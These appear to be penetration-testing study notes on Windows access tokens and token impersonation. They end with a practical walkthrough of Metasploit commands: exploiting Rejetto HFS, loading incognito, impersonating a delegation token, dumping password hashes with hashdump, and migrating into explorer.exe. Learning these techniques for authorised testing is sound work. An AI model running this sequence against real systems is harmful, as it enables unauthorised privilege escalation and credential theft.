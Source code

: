### What are Windows Access Tokens
* A core element of the authentication process on Windows.
* Created and managed by Local Authority Subsytem Service (LSASS)
* It can be thought of as a temporary akin to a web cookie that provides access to a system or a network resource without having to provide credentials each time.
* **How are they generated**
  * Genereated the winlogon.exe process every time a user authenticates successfully
  * This toen is then attached to the userinit.exe process
  * Afte which all the child processes started by that user will inherit a copy of the access token and will run under the privileges of the same token.
 
* **Categories of Windows Access Tokens**
  * Impersonate
    * Created through a non-interactive login through specific system services or domain logons.
    * These tokens can be used to impersonate a token just on the local system and not on any external system, even though that system is using these tokens
   
  * Delegate
    * Created through a traditional login or through remote access protocols such as RDP.
    * These pose the largest threat as they cabe used to impersonate token on any system.

* **Windows privileges**   
* Impersonation depends on the privileges assigned to the account that has been gained during the exploitation phase
* For a successful impersonation:
  * **SeAssignPrimaryToken**
    * Allows a user to impersonate tokens.
   
  * **SeCreateToken**
    * Allows a user to create an arbitrary token with administrative privileges
   
  * **SeImpersonatePrivilege**
    * Allows a user to create a process under the security context of another user typically with administrative privileges.
   
  * **Incognito Mode**
    * A built-in meterpreter module
    * Allows to impersonate user tokens after successful explitation
    * Used to display a list of available token that we can impersonate.
   
  * PRACTICAL
  * Repeat steps till db_nmap
  * `use exploit/windows/http/rejetto_hfs_exec`
  * `sysinfo` --> to check if the meterpreter session is x64 or not.
  * **Escalate the privileges**
  * `load incognito`
  * `list_tokens -u`
  * Under "Delegation Token Available" --> We need to get the name of the token which we want to impersonate, to be used in the next step.
  * `impersonate_token "[name of delegation token]"`
  * `hashdump` --> Might throw an error because the current token must be associated to the previous less privileged user. So we have to change the process to solve this problem.
  * `ps`
  * Look for the PID of the process "explorer.exe"
  * `migrate [PID]`
